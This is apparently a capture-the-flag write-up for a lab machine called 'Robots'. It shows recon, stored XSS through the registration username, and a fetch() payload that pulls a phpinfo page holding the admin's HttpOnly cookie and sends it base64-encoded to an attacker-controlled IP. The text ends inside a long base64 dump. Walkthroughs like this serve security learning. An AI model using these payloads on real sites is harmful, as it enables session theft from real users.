## TL;DR

In this challenge we achieve the admin session cookie using `XSS Injection`. Then, in the `admin.php` endpoint we exploit `RFI` to achieve `RCE` and get shell as `www-data`.

Next step is to bruteforce the hash of `rgiskard` obtained from the `mysql` db, and login via ssh to user `rgiskard`.

We can exploit sudo on `curl` with `*` to get arbitrary file write as user `dolivaw` and put our ssh key, to get ssh as `dolivaw`.

Last step is to exploit the `sudo` as root on `apache2`, and get arbitrary file read, to read the root flag.

The cool thing in this challenge is that we starts from `XSS` and move to full compromise of the machine, nice :D

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `80` apache http server, and port `9000` with apache http server
```bash
PORT     STATE SERVICE REASON         VERSION                                                                                          
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.9p1 (protocol 2.0)
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.61
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.61 (Debian)
| http-robots.txt: 3 disallowed entries 
|_/harming/humans /ignoring/human/orders /harm/to/self
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
9000/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
```

### XSS to achieve admin php session cookie 

I started with `ffuf` in port `80` http server, and found `robots.txt`:
```bash
┌──(agonen㉿kali)-[~/thm/Robots]
└─$ ffuf -u "http://robots.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://robots.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

harming                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 164ms]
harm                    [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 164ms]
ignoring                [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 164ms]
robots.txt              [Status: 200, Size: 82, Words: 4, Lines: 3, Duration: 163ms]
:: Progress: [4750/4750] :: Job [1/1] :: 246 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```



we can see it disallow serveral paths:
```bash
┌──(agonen㉿kali)-[~/thm/Robots]
└─$ curl http://robots.thm/robots.txt              
Disallow: /harming/humans
Disallow: /ignoring/human/orders
Disallow: /harm/to/self
```

I went to `http://robots.thm/harm/to/self/`, and find this page:



Then, I registerd a user at the `register.php` endpoint, and logged in with the format:
> An admin monitors new users. 
Your initial password will be md5(username+ddmm)



I used the extension hackvertor, to get the password:



we can see on the dashboard it displays our name:



Okay, let's try to get `XSS Injection`, since it also says it being sent to the admin.
We'll register the user `<script>alert()</script>`, and try to login with this username:



We got our XSS, now, let's send some payload to get the admin cookies:
```bash
<script>fetch('http://192.168.164.248:8081/?'+document.cookie)</script>
```

Unfurtnally it isn't working, because the cookie is set as HttpOnly, it means the javascript can't access it.


Okay, lucikly we got the endpoint `http://robots.thm/harm/to/self/server_info.php`, which prints the `phpinfo()`:



As you can notice, it also prints the admin cookies, so we can obtain the admin cookie using this username:
```js
<script>
fetch("http://robots.thm/harm/to/self/server_info.php")
.then(r=>r.text())
.then(t=>fetch("http://192.168.164.248:8081/?"+btoa(t)))
</script>
```

Then, I set up simple http server:
```bash
python3 -m http.server 8081
```

and got the long string:
```bash
PCFET0NUWVBFIGh0bWwgUFVCTElDICItLy9XM0MvL0RURCBYSFRNTCAxLjAgVHJhbnNpdGlvbmFsLy9FTiIgIkRURC94aHRtbDEtdHJhbnNpdGlvbmFsLmR0ZCI+CjxodG1sIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hodG1sIj48aGVhZD4KPHN0eWxlIHR5cGU9InRleHQvY3NzIj4KYm9keSB7YmFja2dyb3VuZC1jb2xvcjogI2ZmZjsgY29sb3I6ICMyMjI7IGZvbnQtZmFtaWx5OiBzYW5zLXNlcmlmO30KcHJlIHttYXJnaW46IDA7IGZvbnQtZmFtaWx5OiBtb25vc3BhY2U7fQphOmxpbmsge2NvbG9yOiAjMDA5OyB0ZXh0LWRlY29yYXRpb246IG5vbmU7IGJhY2tncm91bmQtY29sb3I6ICNmZmY7fQphOmhvdmVyIHt0ZXh0LWRlY29yYXRpb246IHVuZGVybGluZTt9CnRhYmxlIHtib3JkZXItY29sbGFwc2U6IGNvbGxhcHNlOyBib3JkZXI6IDA7IHdp
ZHRoOiA5MzRweDsgYm94LXNoYWRvdzogMXB4IDJweCAzcHggcmdiYSgwLCAwLCAwLCAwLjIpO30KLmNlbnRlciB7dGV4dC1hbGlnbjogY2VudGVyO30KLmNlbnRlciB0YWJsZSB7bWFyZ2luOiAxZW0gYXV0bzsgdGV4dC1hbGlnbjogbGVmdDt9Ci5jZW50ZXIgdGgge3RleHQtYWxpZ246IGNlbnRlciAhaW1wb3J0YW50O30KdGQsIHRoIHtib3JkZXI6IDFweCBzb2xpZCAjNjY2OyBmb250LXNpemU6IDc1JTsgdmVydGljYWwtYWxpZ246IGJhc2VsaW5lOyBwYWRkaW5nOiA0cHggNXB4O30KdGgge3Bvc2l0aW9uOiBzdGlja3k7IHRvcDogMDsgYmFja2dyb3VuZDogaW5oZXJpdDt9CmgxIHtmb250LXNpemU6IDE1MCU7fQpoMiB7Zm9udC1zaXplOiAxMjUlO30KaDIgYTpsaW5rLCBoMiBhOnZpc2l0ZWR7Y29sb3I6IGluaGVyaXQ7IGJhY2tncm91bmQ6IGluaGVyaXQ7fQoucCB7dGV4dC1hbGlnbjogbGVmdDt9Ci5lIHtiYWNrZ3JvdW5kLW
NvbG9yOiAjY2NmOyB3aWR0aDogMzAwcHg7IGZvbnQtd2VpZ2h0OiBib2xkO30KLmgge2JhY2tncm91bmQtY29sb3I6ICM5OWM7IGZvbnQtd2VpZ2h0OiBib2xkO30KLnYge2JhY2tncm91bmQtY29sb3I6ICNkZGQ7IG1heC13aWR0aDogMzAwcHg7IG92ZXJmbG93LXg6IGF1dG87IHdvcmQtd3JhcDogYnJlYWstd29yZDt9Ci52IGkge2NvbG9yOiAjOTk5O30KaW1nIHtmbG9hdDogcmlnaHQ7IGJvcmRlcjogMDt9CmhyIHt3aWR0aDogOTM0cHg7IGJhY2tncm91bmQtY29sb3I6ICNjY2M7IGJvcmRlcjogMDsgaGVpZ2h0OiAxcHg7fQo6cm9vdCB7LS1waHAtZGFyay1ncmV5OiAjMzMzOyAtLXBocC1kYXJrLWJsdWU6ICM0RjVCOTM7IC0tcGhwLW1lZGl1bS1ibHVlOiAjODg5MkJGOyAtLXBocC1saWdodC1ibHVlOiAjRTJFNEVGOyAtLXBocC1hY2NlbnQtcHVycGxlOiAjNzkzODYyfUBtZWRpYSAocHJlZmVycy1jb2xvci1zY2hlbWU6IGRh
cmspIHsKICBib2R5IHtiYWNrZ3JvdW5kOiB2YXIoLS1waHAtZGFyay1ncmV5KTsgY29sb3I6IHZhcigtLXBocC1saWdodC1ibHVlKX0KICAuaCB0ZCwgdGQuZSwgdGgge2JvcmRlci1jb2xvcjogIzYwNkE5MH0KICB0ZCB7Ym9yZGVyLWNvbG9yOiAjNTA1MTUzfQogIC5lIHtiYWNrZ3JvdW5kLWNvbG9yOiAjNDA0QTc3fQogIC5oIHtiYWNrZ3JvdW5kLWNvbG9yOiB2YXIoLS1waHAtZGFyay1ibHVlKX0KICAudiB7YmFja2dyb3VuZC1jb2xvcjogdmFyKC0tcGhwLWRhcmstZ3JleSl9CiAgaHIge2JhY2tncm91bmQtY29sb3I6ICM1MDUxNTN9Cn0KPC9zdHlsZT4KPHRpdGxlPlBIUCA4LjMuMTAgLSBwaHBpbmZvKCk8L3RpdGxlPjxtZXRhIG5hbWU9IlJPQk9UUyIgY29udGVudD0iTk9JTkRFWCxOT0ZPTExPVyxOT0FSQ0hJVkUiIC8+PC9oZWFkPgo8Ym9keT48ZGl2IGNsYXNzPSJjZW50ZXIiPgo8dGFibGU+Cjx0ciBjbGFzcz0iaCI+PH
RkPgo8YSBocmVmPSJodHRwOi8vd3d3LnBocC5uZXQvIj48aW1nIGJvcmRlcj0iMCIgc3JjPSJkYXRhOmltYWdlL3BuZztiYXNlNjQsaVZCT1J3MEtHZ29BQUFBTlNVaEVVZ0FBQUhrQUFBQkFDQVlBQUFBK2o5Z3NBQUFBR1hSRldIUlRiMlowZDJGeVpRQkJaRzlpWlNCSmJXRm5aVkpsWVdSNWNjbGxQQUFBRDRCSlJFRlVlTnJzblh0d1hGVWR4OC9kQkdpaG1FMjFRQ3JRRFk2b1paeWtvbi9nWTVxaXpqZ00yS1FNZnpGQU9pb09BNUtFaCtqNFI5b1pIN3pUNk1BTUtyTnBoWkZTUXJlS0hSZ1ptc3BMSFNDSjJDbzZ0QnRKazdacHM3dEpzNXQ5NUY1LzMzUHZXVTQyOTNGMjl5YmRsUHphTTNkZjJYUHYrWnpmNC96T3VXYzF0a2psK1QwSFEzU1FDNlNCU2xENldLTjRydXNHbTlGMXBzL281bVByaU9mOGRkMFlvTmZpMG50NG50QjFQVDR6WXd6UWtmM2tSOS9zVzR4dHBTMENtRTBTeVBVRlVKWEZNSXhaY00wakFaNHhyS011ZFFUNzk2M0hCRjBu
NkVhVWprUDB2STlLOU9FSFdxSkxrTlcxczhtQzJXZ1ZUd0dBcVdUYWZKelRXVEtabVF1Wi9rMU1wQWkyK2V5czZtcFdmVmFBUHpjSUx1OEVWS29DQWFZRnRQeHJBWG84cXlOd3paYzdnU2d6Z045SHgwRWNuM2o4eHI0bHlIT2hOcmxwYUpJZ3B0TTVEakNkenJKMEptY2U2YldGa09wcXMwTUVyQTRnWElCdUFtWTUzZ0ZtT1BDY2RhVFhDYnErbjE2UFBMWGpld01mR2NnRXR0RUNlb3VUcGs1TXBsaHlLc1BCVGlYTll5VUx0d0lXN0N4MXZsd3VKeURMUjlMMG1RaVZQYjI3ZmhBNTR5QmJHdHRNcGMxT1d3RjFjbUthSDJGU0Y3dkFqR2V6T1paSlo5ajBkSVpsTWhudVJpVG9NTzBjK040WDdva3Nhc2dFdDlYUzJLWkNIem9lbTJJeHE1enBBdURUcVRSMTRGTXNsWnllcGVFSTRPZ2oyNm4wdkxqMzN1aWlnRXhnTVdScHQrQ0dDc0VlUFpxb2VQTTczOEJQVGFKelQ3Q3BVMG51MXlYcEFYQ0MzVmVSa0NXNGJmSllGWm82ZG1KeVFUVzJ0dlpjMW5iNz
E5aXlaV2M1Zm1aNk9zdTZIM3VWeml0NTJvQm5NbGwyWWl6R3hrOG11RlpMQXNoYi9ZS3R6UWRjYU8zWTJDUTdlaXkrWU5HdkxOKzQrbkpldG0zYnhoS0p4SnozMTZ4WncxcGJXOWtMZXcrdzE5NDRYQkVhUGo2ZVlDZU94MWdxTmUwN2JLMU13SURiS2NPRk9SNDlHdWVQVDVmY2ZPTVgyZHJQWGNRMHpmN3kydHZiV1ZkWEYvdjFrMit5UTRkUFZwUTVQMFVtL05qb0NYNlVCTUZaUjZrK3U3cU1ZVkJZRElFcUJXN2VYQWZQWlgxOXpwMi9vYUdCSHlzTk1HVEZpblBaaWs5ZldnZ2JJNU9tYjEzelVEZUIzbExzZHdhSy9ZUGV5QUZVMGk4QXc5LzJEd3l4NFNQakZRRVlVbGYzTVRZdzRKeDdDSVZDYkhSMG9xSUROTUQrRk1HK1pFMGRPL3RzSGx2QVduWVM2SDRxamZNQytabGQvd2c5Mi90dXYyV2VlWVQ4N2orSDJhRkR4eXNHTHVTeStvL3o0OURRa09Obm1wcWEyTWpSeW9Zc1pPWEtHbmI1Wit2WnFsVXJ4VXNBdkk5QXQvb0srZWxuQnBvTncrRGFp
OVRla1NNeERyZ1NoMEtyU1lzaFRwcmMyTmhvUmYxSnRsaWtxaXJBVmw5OEFkZHNTYXZEQkRyc0MrUWRUNy9UU29CMzQ0dHpPWjM5KzcwUmJwb3JWZXJxYXN5dzFNRW5DOGlWNkk5VlREaTB1cWJtZlBGU3EyVytneVVIWHVFZGIzV1I1cmFiNWpuRDNpL0JOTU44Q2hOYXFzVGlLYTU1S21CV1grVHVqMFhRZFFWRjMwN25oVEgwQ1BscytPMFVQYmFUNVRRRy84cVg2OHU2THBWNjdMUTZkTmtuYVlnYVl5UER4MlR6dllHQ3NuaFJrSDhiL3JzRjJHRGoxTUNJbmt2eHZSak91Q1VsaXBXRC96ckt4N1pPd0JGMHZmU1NNMlNoeWFxQUFPQzFOdyt6dDkvNVlOYnJOMXpmd0lkcGZnbnFlYnYvQTZwbldBbjRxbFcxSFBnSFE2T2VvRzNOOVJPLytTdE1kRHRtVjJMeEpQZkJwUUNHZndUZ3JWdTM4akZyS2FXMnRwWnQyTENCZFhSMHNFZ2t3aHYyMXU5Y3hRc3lXM1pCMStEZ29PTTU0YnRVNnR1OGVUUHI2ZWxoeTVmcjdJWk5EZXkrZTc2ZTkvZkNMY0FsbE
hwZEtLaW5wYVVsWDgrMTExeEI5VnpOcll4cVVBWS9YVlZWSllNT2VrTHUyZkZHTThWV1lRUllpWWtVOWJENHZQbEhGWW5INC96dmtiMUNnd0FDSGdNb1VwZHl3M3NGWGNYVWg0WUhhTlNIRHFheGRMNWp3VlRYQnBlWFZZOW9GM1JjVVErTzA5TlQ3Q2F5ZmxkKzRSSmxQNDJnVElxOHc2NlFmL1g0YTZGVFNTTU1EY2FFL05oWWVjTU0rTWR5RzkwT0Fob2RXb0FHa1RVYVNaQnlPNVdkaUE0R3F3U3Ryck02azV2RktFWFFzZXJyNjNsN29SNVYwTkJvaktjdGFTWnRibmVFck90R21GeHdrR2V3amswVXpwQ1VsSlNJUnFNY2pOOENrSExEcXlSQnlxMFBFR0JCaERtZGo3clFWdWpBYUxmcnJsazd4eVc1Z1VheHBFdE9tT1FEcjBlNzk5TlltRFZCaTArT1Q3RmNic2FYeEVRazhxcHJFQlFNQm0wdlZLVUJSY05qc2tGRThXNzFsU3Q3OXV6aGRhMWQ2dzRaR1RVVXAzTldBUTNUdlcvZlB2YlZxK3JaSC9jZVVMT2NGMS9JMDZDWTNRSm9oQ0N6TkpuWWRn
RXd3dnBVS3VOYlVzTE5wTzNldlp0ZlNHSHA3Ky9uUzJwdzNMTEZQVldMb0E1eUhRVXRYdlhGWWpIK3ZVNEY1eU9pYnpzUlVMMzhNVHFDM1hXaDhHQ1d6aU1jRGp0MkJORVpVSWZvVU9wSmt3dnppVDNTNXVhOEpqLzR5RDVFMHlFUmJQa2hLdjRSRjRtaGtOMXdDTUhOMnJXZllaMmRuV3o5K3ZYY2hOa0p6Qm9hUThCeHFnOTF3V280MVlkTzJkemN6RCszYnQwNlJ3MHJCRzRuT0Y4b2k5TTBKc3c5T2dMcVExMjRCaWZMZ2V1SHlWYk4wTlhVck9EQm1EV3hnUlIwcE5yVVlxTU5nRE9aR1piTnp2Z0N1YzRqMGtYK0dQSjIvL0NjTWFnUW1La2JybS9rbndWRXArK1NJWHVsTTErbmhqOUFZMjA3UVJEbnBzbnllMjRXQTU5RGt1UGxWLzVqK3o1ZUIyaEUwVzF0YlR5UWROSm1EcGtzUnpGcDJFOWNzRkpBYm9SdkR2ejhnWmRKZ3cyZWs1NUtacGhmQXYrSW51OFVkS25ta0VVSFFLOTNFakVaNFJia2lmcThKaWFjdEVwWUF5OU5saTJHbTZDaklaUG4xcW
xLRldpemxlT0czQkl3ZEtOWitLUk14cjlWSEt2cjFOS0xYbzJCaGxBVkZSUHExcWxXVzZNQnIzTld5WTJyVEdYTzV5U0psTjl1RHVpR3NWN1hUVlB0bDhDSFlHaXpmLzkrVjVPbTBoQXdWVjRhaHVVOHFpYTAzSFAyNmt5cUZrTU9UdWREempzL1AvUUtCVWlCWWE1Wk51Y2ZaSlVrQ0cvMElocEN4WXlxQkYzbG5MT0lJOHExR0txZFN0UTNyVGg1TVN0d1hYNU8vbkUxbWV0R1F6UEhVSDZKYXRBMU9wcFE4dTFlVWJwWDQ0dE80R1k1dk01WjlzZHVGZ09mRzFHd1VPSzZWRnphU0FtcldDU2Z6R0N1dVQvTytiaTZRd1JkVHRxWE4ya2VKNC9lamdrSjVIZWRSQVJrYmtHZTZBUnVsZ01XUStXYzNjREFXb2hob1pkY3VlN2lmSjdjcmZQNk1lOGRFTGQwTXY4VTJiZWdDMms5U0hkM3QrTm5ObTdjcUt3UmJpWVVreWtxdmxabG1PWVZMSXE1YkhSZXA0Nkp6b3RPYzlCaHVGYzBaSEdMcGgrQ0pJYVhyMUZaU0lmeHNkQmlOMStMcEFMRUsyQnk2MUFxczBy
d3RWN0ROQlUzQk1DWWl4WVRMVTZDOGJNNWhCd3VtMGsxbWVzQnBtUHRsaitxWEZlbkZzQWdDVkxvbjlEWWVJeFVubWgwNUhDZEJJa0NWUlA2dXNzaWVwVlpKWlhJdXRDSHd0MkkwWUdZMktpejNBSXllRzVhTE5vb1ZVTFFCYkh5MS9uQUsyb0V0RWFuaGVpbCtHTzNhRmcwRm53U2lsTkM0cTZPclh6eXdjMFhDeTFXTWFGdS90Z3JDQkxSdVdwSHVQK24xenFtUlhGTjBHQW53S2dIZVcxRTFDLzg2VURKSEZLcHRBVFpNUFpUYWZiTFhIdE4zT1BpeEtSQzRldjRHd0IyR3k2SnhoUU5FWXVsK0tvS3A3OVJNYUdxS3p5OW92enQyN2M3cGlkVlp0WUFHSk1ZT1A3dTZiZEsxbUxJMUdRKy9vZ1NaQmFod0t1TE8yalNadDBvZHc2NXhyVWhBTU5yWnNrTHNHaUlYejcyRjNiVGpWK2l4dnRiV2NNUXIzTldDYm9nNVZ5WEFJeTYzUExycXBKSVRJcUhrY0Q5UDdzdVNpWWJHNTN3dlRMS0RicjhXQmJqWnFJRjRGM1BEM0l0Um4xZVFkNUNCRjNsQ001UkFJWW
ZWcDAvZGdaOFN2YkoyL2w4TW1sdk53KzhxSlRqbStkcldRd2FBWE85S011V25jYzFHQk1YS2tHZVYvcFU1WnhGSXNUdnpvdk9DdTNIdkRuT0U3TlR1M3JMcitQRThmeTYrSUVYOTk0N1lNNG4vK0xiUFQvODhSOFFxb1lBdVZTRHJaTEZLY1lzbzJBY0xCSWVHRFB1NmgzTSt5cXZJRS80WTZ3NExkVWZpK2pjcjg2TDc1S3ZDOStQY2JWZmQxaENpNlU3SW5ud2sxLytRNXJjb2V0c2R5QmczczlhQ21pdkJzTkZpZkdmRzl6Q0pVRml6dG1wRVhBYnFoTWdyNlNMV0JQdTlSMWVuUmZtMWt0ckM2Y1ZZV0grL01xZzQzeDZzWUsxZWRhQ2V4N3ZrUlpIWmtGKzZQNk5rWHZ2aS9UcExOQlVhcVR0ZGNzb0x0SXJWVGNlbTJFSERoN20ydXEwaWtNSU5CdmFmT21henp0K0JrR01XOUNGNzBEbmRQc09hSnFiMzhZMW9YamRDWUhPaXF3YlBvZnJLaWQ2dGhNQWxueHhQdE15Nnc0SzB1Yk5ocTczVTV3ZDVQdFZsZUNUZCs1MEQyQ0VhZkxsb3FpeHl2MHVmTWNP
